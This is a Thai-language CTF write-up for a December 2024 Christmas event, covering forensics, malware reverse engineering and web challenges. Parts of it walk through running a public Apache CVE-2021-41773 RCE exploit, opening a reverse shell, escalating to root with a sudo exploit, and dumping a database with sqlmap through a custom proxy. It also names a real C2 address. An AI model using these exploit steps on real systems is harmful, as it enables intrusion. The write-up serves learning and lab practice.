



การแข่งขัน CTF ในวัน Christmas จัดโดย SECPlayground และ Sponsored โดย NCSA Thailand, I-SECURE, Secure-D ในวันที่ 25/12/2024–28/12/2024


`Don’t Know Everything Team`

แน่นอนว่าผม solve ช้าเช่นเคย สำหรับงานนี้มากันแค่สองคนกับ [c0ffeeOverdose](https://medium.com/u/0d12216207c8) ซึ่งนี้เป็นงานแรกที่ใช้เวลายาวนานเป็นงานแรก (นั่งงมทั้งวันกันเลยทีเดียว)

# Challenges

- **Cryptography**
  - **Classical**
  - **Santa’s Secret Gift**
- **Log analysis**
  - **Hidden Secret**
  - **The First Clue**
  - **Universal Share (First Solve)**
- **Reverse Engineering**
  - **Secplaysomware#1–5**
  - **Hello World**
- **Incident#1**
  - **Phantom of the Network#1–8 (1,2,3,6,7,8)**
- **Digital Forensic**
  - **Santa_Message**
  - **The Snowman’s Secret Message#1–5 (1,2,3,4)**
  - **Malware Infection#1–3**
  - **malware infected**
  - **The file was left behind**
- **Web Application Security**
  - **Bespoke Library 1–2 (1)**
  - Log Christmas
  - The Naughty List 🎄
  - Please don’t
  - **Santa is forgetful! 🎅😄**
  - **Merry Christmas**
  - Bookclub
  - Travel Blog#1–2
  - Santa’s Math

# Classical

_Santa has left behind a mysterious message with a hidden key inside. This key serves as a clue to unlock the door and find the treasure chest containing the Christmas gifts that Santa has hidden. Let’s help find the key!_

**Solved:** [**@c0ffeeOverdose**](https://medium.com/u/0d12216207c8) \
**Link:** [c0ffeeOverdose/Classical](https://pssl.noonomyen.com/medium/c0ffeeOverdos/4294214003cd/classical)

# Santa’s Secret Gift

_On Christmas Eve, Santa Claus is delivering gifts to all the good kids. However, there’s a rumor that Santa’s bag contains a secret gift hidden inside. Can you uncover what it is?_

เราจะได้รูปมารูปหนึ่ง พร้อมกับถามว่ามีอะไรอยู่ด้านใน


`This is passphrase`

หลังจากที่ลองทำโน่นนี้ โยนเข้า aperisolve ก็แล้ว เลยลอง steghide ด้วยคำที่เขียนในรูปดูสรุปได้ผล

```txt
steghide extract -sf SantaBag.jpg
Enter passphrase: christmas
```


`Secret_Gifts.txt`

base64 ชัว (แถม reverse ด้วย)


`CyberChef`

```txt
Cryptography{Candy_Canes_And_Toys}
```

# Hidden Secret

_-_

เราได้ไฟล์ event log มา (Security) ซึ่งเราก็เจอ github link หนึ่งที่เมื่อเราตามไปดูแล้วพบกับ flag, key, iv


`Event log`

::github{repo="fern-ppcs/CowardCandyCane"}


`github.com/fern-ppcs/CowardCandyCane/blob/main/SuperSUS`

key และ IV น่าจะเป็น AES เราจึงทำการ decrypt มันออกมา

```py
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
from binascii import unhexlify
flag = "cae7f19baa4a88fb7114fe1abb5e567a89cdc46c649e2a0ae792731fc9e9a6a890aa5f3ef71135bebd3deaf9fef74281"
key = bytes.fromhex("00112233445566778899AABBCCDDEEFF")
iv = bytes.fromhex("000102030405060708090A0B0C0D0E0F")
encrypted_data = unhexlify(flag)
cipher = AES.new(key, AES.MODE_CBC, iv)
decrypted_data = unpad(cipher.decrypt(encrypted_data), AES.block_size)
print(decrypted_data.decode("utf-8"))
```


`decrypted message`

```txt
forensic{WaitingUnderTheMistletoe}
```

# The First Clue

_Analyze logs to find When did the attacker first attack?_

เราได้ไฟล์ log มา 4 ไฟล์ หลังจากที่ลองดูจนหมด แล้วสิ่งที่น่าสนใจสุดๆคงเป็นใน errors ไฟล์ที่มี WARN ว่า No Seccion! ขึ้น


`errors`

และถูก (หลังจากเดามาอย่างยาวนาน 😅)

```txt
forensic{30/Nov/2024:14:08:18 +0000}
```

# Universal Share

_-_

**Solved:** [**@c0ffeeOverdose**](https://medium.com/u/0d12216207c8) \
**Link:** [c0ffeeOverdose/Universal-Share](https://pssl.noonomyen.com/medium/c0ffeeOverdos/4294214003cd/universal-share)

# Secplaysomware#1

_what hash of this file?_ \
_(this file real ransomware,run on VM only)_

เราได้ไฟล์มาชื่อ `Keygen.exe` การ hash ไฟล์นั้นไม่ยาก ว่าแต่ถามหา hash อะไร? แล้ว hash ไฟล์ไหน ทำไมมันไม่ได้วะ ไฟล์ผิด? ถามหาไฟล์ไหนกันแน่นิ

หลังจากผ่านไปหลายชั่วโมง



`Powershell Get-FileHash`

โดนเกรียนนนน (ปกติเขาตอบตัวเล็ก)

```txt
re{B8AF9CBD706C13F5E7F20573FF5F2894966C905835BD7C026B8C96F20E304C0B}
```

แล้วทีมงานก็มาบอกทีหลังว่ามันคือตัวใหญ่หมดนะครับ… (ขอค่าทำขวัญสำหรับคนที่รู้ก่อนสัก 1 point ก็ยังดี)

# Secplaysomware#2

_this ransomware, what language was it developed?_ \
_(this file real ransomware,run on VM only)_

**Solved:** [**@c0ffeeOverdose**](https://medium.com/u/0d12216207c8) \
**Link:** [c0ffeeOverdose/Secplaysomware-2](https://pssl.noonomyen.com/medium/c0ffeeOverdos/4294214003cd/secplaysomware-2)

# Secplaysomware#3

_what extension name does this ransomware use to encrypt files?_ \
_(this file real ransomware,run on VM only)_

**Solved:** [**@c0ffeeOverdose**](https://medium.com/u/0d12216207c8) \
**Link:** [c0ffeeOverdose/Secplaysomware-3](https://pssl.noonomyen.com/medium/c0ffeeOverdos/4294214003cd/secplaysomware-3)

# Secplaysomware#4

_what file name was created after this ransomware run?_ \
_(this file real ransomware,run on VM only)_

**Solved:** [**@c0ffeeOverdose**](https://medium.com/u/0d12216207c8) \
**Link:** [c0ffeeOverdose/Secplaysomware-4](https://pssl.noonomyen.com/medium/c0ffeeOverdos/4294214003cd/secplaysomware-4)

# Secplaysomware#5

_what IV does this ransomware use to encrypt files?_ \
_(this file real ransomware,run on VM only)_

ถามหา IV ? AES แหละ เราก็ต้องมาดูกันก่อนว่า เราจะ reverse engineering ยังไง


`Detect It Easy | Keygen.exe`

มันคือ python ซึ่งเราคิดว่าน่าจะมาจาก PyInstaller เราจึงหา tool สำหรับ extract มันออกมา

::github{repo="extremecoders-re/pyinstxtractor"}


`pyinstxtractor`

เมื่อเรา extract ออกมาแล้วเราก็ทำการสำรวจไฟล์ต่างจนเจอชื่อไฟล์ที่คุ้นเคย



`main.pyc`

หลังจากที่เราลอง tools ไปสักตัวสองตัวพบว่ามันคือ python 3.12 ซึ่งบาง decompiler ยังไม่รองรับ แต่มีตัวหนึ่งที่พอจะถอดกลับเป็น bytecode ได้

::github{repo="zrax/pycdc"}

เมื่อเราทำการ disassembler ออกมาแล้วเราก็ทำการลองค้นคำว่า IV ดู (เพื่อเจอ)


`main.pyc disassembler`

เจอแล้ว มันคือ secplaygroundgod

```txt
re{secplaygroundgod}
```

# Hello World

_We just got a present from someone. However, we don’t know what is it inside?_


`Hello_World_3.exe`

เราได้ไฟล์ชื่อ Hello_World_3.exe มา ใหญ่แปลกๆ โดยถามว่ามีอะไรอยู่ในนี้ และสำหรับ challenge นี้ผมนั่งงมอยู่นานเลยแหละ โดยด้านในมี text ขนาดใหญ่ที่อ่านไม่รู้เรื่องอยู่ ซึ่งผมไม่สนใจ เพราะผมหาอะไรที่น่าสนใจไม่เจอ และก่อนที่ผมจะไปถูกทาง ผมจะพาคุณออกทะเลสักแปปเพื่อให้รู้ว่า ผมรู้ได้ไงว่าต้องแงะ dll ด้านในอีกที

เริ่มจาก DIE ก่อนเลย


`Detect it Easy | Hello_World_3.exe`

สำหรับงานนี้ผมจะใช้ IDA (free) (ตอนแรกก็ใช้ ghidra แหละแต่รอบนี้ขอลอง IDA หน่อย และจะทำการ debug ด้วย) โดยขั้นตอนแรกคือการหา entry point ของโปรแกรม wmain ซึ่งเราเจอ wmainCRTStartup และตามเข้าไปที่ __scrt_common_main_seh


`wmainCRTStartup`

ตามไปดูที่ main function


`Decompiled main function`

เอ๊ะ แปลกๆแฮะ เราทำการดูในหน้านี้สักพักจนเจอ exe_start function ที่มีการรับค่า argc, argv เข้าไป ซึ่งพอเข้าไป decompile ใน exe_start แล้ว code เยอะเอาเรื่อง แต่ดันเจอจุดสังเกตุอยู่


`Dotnet path ?`

และเจอคำว่า Dotnet path และ Single-File app bundle ด้วย ต่อมาเราทำการรันด้วย debug เพื่อดู program ทำงานยังไงบ้าง แต่ก็รันไม่ได้


`hostfxr_main_bundle_startupinfo`

ซึ่งจากที่หาดูมันคือ function หนึ่งใน dotnet runtime


`dotnet/runtime/src/native/corehost/fxr/hostfxr.cpp`

เอาละตอนนี้เรารู้แล้วว่ามันคือ dotnet app bundle ซึ่งตัว dotnet app นั้นจะเขียนด้วย C# ซึ่งการที่เรา reverse มาทางนี้สรุปมาผิดทางนะครับ

เอาละเริ่มกันใหม่ เริ่มจาก app มันมีอะไรอยู่ด้านในบ้าง ด้วยความที่มันเป็น app bundle มันไม่ได้รวมทุกอย่างไว้ใน code เดียวจริงๆหรอก ดังนั้นต้อง extract มันออกมาดู และเราก็ทำการหา tool สำหรับทำสิ่งนี้

::github{repo="Droppers/SingleFileExtractor"}

ติดตั้งและใช้ง่ายดี


`Extracted Hello_World_3.exe`

ว่าแต่ Hello_World_2.dll มาแต่ไหนนิ จะว่าไปคุ้นๆนะเหมือนเคยเห็นที่ไหน


`Description of Hello_World_3.exe looks like Hello_World_2.dll`

ใช่แน่เรามาถูกทางแน่ๆ และเมื่อเรารู้อยู่แล้วว่ามันคือ dotnet เราจึงโยน dll นี้เข้าไป dnSpy แต่เป็น dnSpyEx (เขา fork มาทำต่ออะนะ เพราะ upstream เขาเลิก develop ไปแล้ว)

::github{repo="dnSpyEx/dnSpy"}


`Main function`

ไม่รีรอรีบไปแงะสอง function ที่เหลือเลยละกัน


`CheckKey function`

จากที่เห็นเป็นการเก็บ key ไว้ในรูป array byte เฉยๆ เราก็แค่ลองแปลงกลับ


`CyberChef`

ไปผิดทางตั้งนาน จริงๆมีแค่นี้ครับ… สรุปคือคนที่จะ solve ข้อนี้ได้เร็วและคิดว่าง่ายคือคนที่รู้ตั้งแต่แรกว่าไฟล์นี้จริงๆคือ C# ที่ถูกมัดมา

```txt
re{X0r_Ch3773ng3_CTF_ggEz}
```

# Phantom of the Network#1

_Santa left some gifts on this website, but he accidentally leaked something important. Can you find the gift?_

สำหรับข้อนี้มี 2 port คือ 80, 8080 โดยหลังจาก solve ไปแล้วสรุปได้ว่าสำหรับข้อนี้เป็นประตูสู่ข้อที่เหลือ เพราะ port 80 มันคือ password ของไฟล์ และอีก port คือ challenge ของข้อนี้

เริ่มจาก password ไฟล์ได้มายังไง

เมื่อเราทำการสำรวจเว็บทั้งสองแล้วเราพบว่าเว็บที่เป็น port 80 มี comment หนึ่งที่น่าจะเป็น sha256 สองตัว


`port 80`

และเมื่อทำการ decrypt แล้วมันก็คือ `xmas2024` และนี้ก็คือ password ที่ใช้ extract


`crackstation.net`

เอาละสำหรับ challenge นี้จะเป็นเว็บ port ที่สองคือ 8080 โดยเมื่อเราสังเกตุตรง server จะพบว่าเป็น apache2 version 2.4.49 ซึ่งเมื่อเราหาแล้วพบว่ามีช่องโหว่อยู่


`www.exploit-db.com | CVE-2021–41773`

เป็น CVE-2021–41773 path traversal & remote code execution ผ่าน cgi-bin โดยปกติ cgi-bin จะ execute ใน path ที่กำหนด แต่ในช่องโหว่นี้จะทำให้เรากำหนด path ออกนอก dir ที่กำหนดไว้ได้ ซึ่งเป้าหมายของการ execute ก็จะไปรันที่อื่นเช่น /bin/sh

เราลอง script ที่มีให้ใน db แล้วไม่ได้เราจึงลองหาใน github แล้วเจอตัวที่ใช้ได้คือ

::github{repo="blackn0te/Apache-HTTP-Server-2.4.49-2.4.50-Path-Traversal-Remote-Code-Execution"}

```bash
python exploit.py <ADDRESS> 8080 rce id
```


`i’m in`

เราได้ uid มาคือ 1 (daemon)

เพื่อความสะดวกของชีวิตเราจึงทำการทำ reverse shell ซึ่งตอนแรกเราใช้ ncat ซึ่งก็ลำบากไม่น้อยเลยมองหาว่ามีอะไรทำ reverse shell ในเครื่องได้บ้างแล้วเจอภาษา perl อยู่ และเราก็เจอ tool ดีๆที่ใช้ perl ได้เช่นกัน

::github{repo="t3l3machus/Villain"}


`Villain`

ซึ่งเราก็ทำการค้นหาไฟล์จนเจอไฟล์ /var/flag.txt แต่กำหนด permission ไว้แค่ root สามารถอ่านได้


`exploit.py | flag.txt is in /var`

นั้นหมายความว่าเราต้องทำการหาวิธีทำ privilege escalation ซึ่งในตอนแรกเราพยายามหา config ที่เป็นช่องโหว่ของ apache อย่างอื่นแต่ก็หาไม่เจอ จนไปรู้สึกแปลกๆรับไฟล์ sudo


`captionless image`

sudo 1.8.31 search ไปเจอเลย มันคือ CVE-2021–3156

เราได้ทำการหา tool สำหรับ exploit แล้วเจอสองตัว ตัวหนึ่งต้อง bruteforce แต่อื่นตัวไม่ ผมลองตัว bruteforce แล้วไม่ work แต่ตัว นี้ work (no bruteforce)

::github{repo="mohinparamasivam/Sudo-1.8.31-Root-Exploit"}

สำหรับ tool ในเครื่องมี wget ให้ใช้ไม่พอ มี compile tools ให้ด้วย ดีจริงๆ download มาเสร็จแล้ว compile & exploit ได้เลย


`exploit and read flag`

นี้มัน รากนิ! (root) ไม่รอช้า แมว (cat) เลยครับ

```txt
web{aHR0cHM6Ly9zdG9yYWdlLmdvb2dsZWFwaXMuY29tL3NlY3BsYXlncm91bmQtZXZlbnQvYmxvb2R5eG1hczIwMjQvZm9yZW5zaWMvaGFyZC9ERVNLVE9QLTgxUFExVkYuemlw}
```

# Phantom of the Network#2

_What is the first file downloaded to the machine?_

ขั้นตอนแรกเราก็ต้องหาไฟล์ malware ก่อน ซึ่งเราลอง analyze ตัว event log ดูแล้วเจอ powershell แปลๆอยู่ (จริงๆเขามี log ที่แยกออกมา ซึ่ง search powershell ก็เจอแล้วไม่จำเป็นต้องใช้ chainsaw ด้วยซํ้า)


`Chainsaw`

::github{repo="WithSecureLabs/chainsaw"}

เมื่อเราตามไปดูที่ url พบว่าโดนลบไปแล้ว เราจึงลองหาแล้วไปเจอใน any run

[any.run/report/89827a91f64cccd103ed677b53d7bda68febc82777e59863d07873e01501356c/1496f862-5f70-4caa-936b-d9d4f47926aa](https://any.run/report/89827a91f64cccd103ed677b53d7bda68febc82777e59863d07873e01501356c/1496f862-5f70-4caa-936b-d9d4f47926aa)


`app.any.run/tasks/1496f862–5f70–4caa-936b-d9d4f47926aa`

หลังจากลองตามหาชื่อดังกล่าวใน log ก็พบจริงๆ


`C/ProgramData/Microsoft/Windows Defender/Support/MPLog-20241202–161923.log`

จากที่ดูสรุปได้ว่า ไฟล์ download ผ่าน script powershell vent.txt ซึ่งไฟล์แรกที่ download แล้วเป็นไฟล์ที่ต้อง save เป็นไฟล์แรกคือ `pzk.zip` จริงๆเป็นชื่ออื่นแต่เพราะเมื่อ download ลงมาแล้วได้ทำการเปลี่ยนชื่อที่ใช้ save จึงต้องเรียกชื่อไฟล์แรกว่า pzk.zip

```txt
forensic{pzk.zip}
```

# Phantom of the Network#3

_Where is the file stored on the system?_

**Solved:** [**@c0ffeeOverdose**](https://medium.com/u/0d12216207c8) \
**Link:** [c0ffeeOverdose/Phantom-of-the-Network-3](https://pssl.noonomyen.com/medium/c0ffeeOverdos/4294214003cd/phantom-of-the-network-3)

# Phantom of the Network#6

_Which port was used to allow attackers to access and control?_

ต่อจาก event log เลย เมื่อรันไปสักพักแล้วตัว `kokesh.exe` ก็ไปเรียก `msedge.exe` และมีการกำหนด remote debugging ด้วย port 9221


`captionless image`

```txt
forensic{9221}
```

# Phantom of the Network#7

_How was PowerShell executed?_

สำหรับข้อนี้เราก็ตั้งคำถามง่ายๆต่อเลยว่า script ที่ใช้ download malware ลงมาจะมาจากไหนได้มากที่สุดถ้าไม่ใช่ browser

แงะ History เหมือนเดิม แต่รอบนี้เป็น Microsoft Edge


`urls history`

ปลายทางที่น่าแปลกคือ row ที่ 82 ซึ่งเป็นหน้าเว็บที่ใช้เรา Win+R (เรียก Run) แล้ว CTRL + V (วาง clipboard) แล้วก็ Enter… เดี๋ยวๆๆ อะไรวะเนี่ย 🤔


`Some website from urls history`

คือตัว command ที่เห็นใน event log กับที่หน้าเว็บนี้มันยัดให้ใน clipboard คืออันเดียวกันครับ

ตัวคำถามถามหา shortcut 3 ตัว โอ๊ะ ตรงกันพอดีเลย ตอนแรกเราใส่ win+r แต่ไม่ได้ แล้วลองคำเต็มๆดู สรุปได้

```txt
forensic{(windows+r)+(ctrl+v)+(enter)}
```

# Phantom of the Network#8

_Which domain is the source of the malicious file download that initiated the incident?_

จริงคนที่จะตอบข้อ 7 ได้ผมว่าส่วนใหญ่ทำข้อ 8 ก่อนทั้งนั้นแหละ

domain ไหนที่เป็นต้นทางให้ผู้ใช้อัญเชิญ malware ลงเครื่องตัวเอง ซึ่งก็กลับไปที่ History urls ก็จะเจอว่า web ที่เราได้ command มานั้นไม่ได้เข้าตรงๆ แต่โดน redirect มาเรื่อยๆจากเว็บ `en1.savefrom.net`


`urls history again`

```txt
forensic{en1.savefrom.net}
```

# Santa_Message

_Dr.Eye is the best developer in our Santa company. Normally, She works with the team by storing code on the internet and setting it to private, sharing it only with team members. Before She disappeared, She left behind an audio clip, which contains a secret, stored in the same place where She keeps the source code. Based on the data from Dr.Eye’s device, we need help analyzing and identifying the website where the secret audio clip is stored, then decrypt it to extract the secret message from the clip._

เราได้ไฟล์ 7z มาซึ่งด้านในมีไฟล์ต่างๆในเครื่อง โดนเราเริ่มจากการค้นหา `http` กันก่อนแล้วพบว่า มี `http://github` อยู่เยอะพอควร เราจึงหาต่อแล้วพบ repo น่าสงสัย


`KAPE-Module/KeywordSearches/URLs.txt`

::github{repo="eye9997/Santa_message"}


`https://github.com/eye9997/Santa_message`

มีไฟล์เสียงพร้อมค่า LSB, Byte และ link สำหรับไปยังวิธีเข้า/ถอดรหัส

::github{repo="itxKAE/Video-Steganography"}


`S c h o o l A s s i g n m e n t`

ใจดีจังทิ้ง tutorial ไว้ให้ด้วย ว่าแต่มันใช้ยังไงละเนี่ย ซึ่งไฟล์ tool ที่เราจะต้องใช้คือ `Video-Steganography/main-module/wav-steg.py`


`Video-Steganography/main-module/wav-steg.py`

มี link ไปยัง upstream ด้วย แต่เราจะใช้ตัวที่อยู่ใน repo ที่งานให้มา ซึ่งพอดูแล้วคำสั่งที่จะเรียกใช้จะเป็นประมาณนี้ (จริงๆตอนเรียก --bytes ไม่ต้องใส่เยอะก็ได้นะ flag มันอยู่ตรงหัวไฟล์เลย ทำให้ไม่จำเป็นต้อง recover ทั้งหมด)

```bash
python wav-steg.py -r -n 1 -b 1026868 -s santa_key_message.wav -o bin
```


`Output to file and view with vim`

```txt
forensic{santa_2024}
```

# The Snowman’s Secret Message#1

_What is its file type_

**Solved:** [**@c0ffeeOverdose**](https://medium.com/u/0d12216207c8) \
**Link:** [c0ffeeOverdose/The-Snowman-s-Secret-Message-1](https://pssl.noonomyen.com/medium/c0ffeeOverdos/4294214003cd/the-snowmans-secret-message-1)

# The Snowman’s Secret Message#2

_What is the domain that LNK fetch content from?_

ได้ไฟล์มาเป็น lnk ไฟล์ จึงเปิดดูว่ามีอะไร


`lnkinfo clickme.txt.lnk`

จะเห็นว่า powershell ได้รัน command จาก url หนึ่ง

```txt
forensic{dpaste.com}
```

# The Snowman’s Secret Message#3

_In second stage, what is the filename that was downloaded by LOLBAS_

Solved: [c0ffeeOverdose](https://medium.com/u/0d12216207c8) \
**Link:** [c0ffeeOverdose/The-Snowman-s-Secret-Message-3](https://pssl.noonomyen.com/medium/c0ffeeOverdos/4294214003cd/the-snowmans-secret-message-3)

# The Snowman’s Secret Message#4

_Which LOLBAS was used_

LOLBAS = Living Off the Land Binaries and Scripts หรือสรุปง่ายๆคือ วิธีที่ใช้ในการ load เอาตัว executable / binary file / script ลงไปยังเครื่องเป้าหมาย


`DF7SUQU2G.txt`

จากที่นั่งถอดดูสรุปได้ว่า เลขยาวๆที่เห็นคือ character โดยตอนที่รันจริงๆจะถูกแปลงกลับเป็น string

เมื่อเราลองแปลงเลขกลับเป็น character แล้วพบว่าคำสั่งที่ใช้ download ตัว script.py และ Xmas.png คือ bitsadmin

```txt
98,105,116,115,97,100,109,105,110
```

```txt
forensic{bitsadmin.exe}
```

# Malware Infection#1

_The browser history is an important part of identifying where the malware was downloaded. Please investigate the browser history to find the full URL from Which the malware was downloaded (e.g,www.secplaygroundcom/malware.exe)._


`Secplayground_2.zip`

เราได้ไฟล์มาประมาณ 13GB ซึ่งใหญ่เอาเรื่องอยู่ และจากไฟล์ txt ก็ได้บอกว่านี้คือไฟล์ที่สร้างโดย Exterro FTK Imager

เพื่อเรา extract ออกมาแล้วเปิดด้วย Exterro FTK Imager (ให้เปิดจากไฟล์ E01) แล้ว กลับไปที่คำถามข้อแรกนี้คือ malware ถูก download มาจากที่ไหน (ตอบเป็น url)

เราเริ่มจาก folder download พบไฟล์น่าสงสัยชื่อ MinecraftCrack.exe


`Exterro FTK Imager | Users/Moodeng-PC/Downloads`

เราจึงไปดู browser ว่าโหลดมาจากไหน โดยการเอา History มาเปิดดู



`Exterro FTK Imager | Users/Moodeng-PC/AppData/Local/Google/Chrome/User Data/Default`

ตามไปดูนิดหน่อย


`https://github.com/taipun/Minecraft`

```txt
forensic{https://github.com/taipun/Minecraft/blob/main/MinecraftCrack.exe}
```

# Malware Infection#2

_A malicious file often communicates with an attacker-controlled server, known as a Command and Control (C2) server, to facilitate malicious activities. Please identify the IP address of the C2 server and the port used by the malicious file to communicate with it (e.g. 1.1.1.1:443)._

ถามหา C2 ip address และ port ของตัวไฟล์ malware (MinecraftCrack.exe)

ได้เวลาใช้บริการ VirusTotal


`www.virustotal.com/gui/file/d95c97c31a22087b257107bacfdd21c8cc076463e13863c927d4dd76ed0d1b72`

มี port ของ address หนึ่งแปลกๆดีคือ port 9999

```txt
forensic{20.188.121.243:9999}
```

# Malware Infection#3

_From the malware file, find the key that the malware used to encrypt files, by using the decryption function._

หา key ? เอาละได้เวลา reverse engineering เริ่มจาก DIE เช่นเคย


`Detect it Easy | MinecraftCrack.exe`

เป็น C# ที่โดน Confuser (Obfuscation) เราจึงมองหา tool สำหรับ deobfuscate

::github{repo="NotPrab/.NET-Deobfuscator"}

และหลังจากที่ลองหยิบมาสักสองตัวไปก็เจอตัวที่มัน work

::github{repo="illuZion9999/Rzy-Protector-V2-unpacker"}


`Rzy Protector V2 unpacker`

หลังจากที่เปิดไฟล์ด้วย dnSpy แล้วก็พบ array หนึ่งยาวมากและ function สำหรับ decrypt แต่นี้ยังไม่ใช่คำตอบนะ


`Main function`

เรานั่งงมตรงนี้นานมาก จนกระทั่งตอน debug ตรงตัวแปลที่เก็บค่ากลัง decrypt


`Debugging and memory at ‘array2’`


`Value of`array2``

นี้มัน DOS MZ executable นิ ! เราจึงทำการ dump ตัวแปรนี้ออกไปเป็นไฟล์ exe ดู


`exe file inside the exe file after extracting it`

โยนมันเข้า dnSpy ใหม่อีกครั้ง


`Key???`

เจอแล้ว แต่ยังตอบไม่ได้ น่าจะต้องถอดรหัสก่อน ด้วยความขี้เกียจให้ ChatGPT ช่วยเขียนให้แล้วมาแก้เพิ่มจนได้ประมาณนี้


`C# for run decrypt`

เมื่อรันดูก็ได้คำตอบ


`Key after decrypted`

ได้แล้ว ว่าแต่มันคุ้นๆจังเลยนะครับ เหมือนเคยเห็นที่ไหน


`www.virustotal.com/gui/file/d95c97c31a22087b257107bacfdd21c8cc076463e13863c927d4dd76ed0d1b72`

ห๊ะ!!! ใครมันจะไปรู้ว่ามันคือ key วะ…

```txt
forensic{-|S.S.S|-}
```

# malware infected

_We found information about a malware that affected Santa’s work computer. Santa downloaded a file to work with, which caused the machine to get infected with the malware. We are tasked with identifying the type of malware from the network packet we intercepted, and then using this information to locate documents related to the same type of malware on the machine. The response should be in the form of the MD5 hash of the related document files._

เราได้ไฟล์ vm มาตัวหนึ่ง


`Welcome…`

เมื่อเราเข้ามาแล้ว จากคำอธิบายบอกว่ามันเกิดอะไรแปลกๆหลัง download อะไรสักอย่างลงมา เราเลยตามไปดู browser เหมือนเดิม


`location of History`


`urls history`

ว้าว ตายละ ไฟล์ไหนละเนี่ย แต่จะว่าไป ก็ไม่ค่อยเยอะทำไหร่หรอก ขออนุญาตลองมันทุกตัวไปเลย


`Hasher`


`CyberChef`

lower case แล้ว try it all แล้วสรุปมันคือไฟล์

```txt
008653065299f1e96ecd195fe23948cc3976210bc8d58ba0e1456db17270154d.xls
```

```txt
forensic{e5d7a2dd2aafaa4e55c303c3533a36be}
```

# The file was left behind

_Your system got hack and threat actor left webshell in your web However, when we try to use it, it need password, please find the password to use this webshell._


`c.txt`

php ที่ obfuscate เต็มๆ ซึ่งต้องหา password, แล้ว password อยู่ไหนละเนี่ย

ลองเอาไปเปิดดูเล่นสักหน่อย


`captionless image`

พอดูคราวๆมันคือ ALFA SHELL ตอนแรกว่าจะพยายามหาว่า user / pass set ที่ไหนแต่ในขณะที่กำลังหา source code ว่าว่ามันทำงานยังไงนั้นก็เจอสิ่งนี้เข้า

::github{repo="Ravin-Academy/DeObfuscation_ALFA_SHELL_V4.1"}

เขาได้ทำการ deobfuscate ไว้แล้ว


`Decode Of ALFA Team/alfa-shell-v4.1-tesla-decoded.php`

เราจึงนำ globals key ไปค้นหาใน c.txt


`captionless image`

เจอแล้ว แต่มันยังตอบไม่ได้เนี่ยสิ จากที่เห็นแล้วน่าจะเป็น md5 เราเลยลองใช้
md5 decrypt online ดูแล้วมันคือ `ehsan` (จริงๆ เขาเขียนไว้ใน repo อยู่)

```txt
forensic{ehsan}
```

# Bespoke Library 1

_Welcome to “BookLibrary”, BookLibrary is a Windows application that allows users to search and view book reviews._

จากที่ได้ลองเล่น app แล้วดัก traffic ไปด้วยพบว่า api นั้นเป็น tcp ที่ query แบบอย่างง่าย

BOOKS: \<string> ข้อความที่จะค้นหาหนังสือ
CHECKS: \<number> ตรวจสอบว่ามีหนังสือเล่มนี้
REVIEW: \<number> ข้อมูลของหนังสือ

ผมไม่รู้ว่าทีมอื่นเขาทำกันยังไงแต่ผมใช้วิธีการทำ proxy ระหว่าง socket tcp และ http แล้วลองใช้ sqlmap ดู

```py
from flask import Flask, Response, request, abort
import socket
sip = "<IP ADDRESS>"
sport = 1234
lip = "127.0.0.1"
lport = 2000
app = Flask(__name__)
@app.route("/favicon.ico")
def favicon():
    return abort(404)
@app.route("/<string:path>/")
def index(path):
    query = request.args.get("query")
    conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    conn.connect((sip, sport))
    conn.settimeout(3)
    conn.send(bytes(f"{path.upper()}:" + query + "\n", "utf-8"))
    data = ""
    while not data.endswith("\n\n"):
        buf = conn.recv(65535)
        if buf == None:
            break
        data += buf.decode("utf-8")
    conn.close()
    return Response(data, content_type="text/plain")
if __name__ == "__main__":
    app.run(lip, lport)
```

เราจะทำการรับ request มาโดยกำหนด parameter `query` มาด้วย


`sqlmap | scan`

```bash
sqlmap -u http://127.0.0.1:2000/books/\?query\= -p query -dbs
sqlmap -u http://127.0.0.1:2000/books/\?query\= -p query --tables
sqlmap -u http://127.0.0.1:2000/books/\?query\= -p query --dump
```

it work

```txt
misc{5WYSNBJW97}
```

# Santa is forgetful! 🎅😄

_I’ve hoard that Santa otton Iosco his notebook of good children, so he costly create a hidden channel to access the list Maybe your name will be on it this year too! 🎅🎁_

เราได้ ip:port มาซึ่ง ไม่รู้ว่ามันคืออะไร ลองไปลองมาจบที่ netcat สรุปมันคือ menu driven program หนึ่งที่รับชื่อไฟล์เข้าไปแล้วเปิด (เหมือนมี delay ให้ช้า)

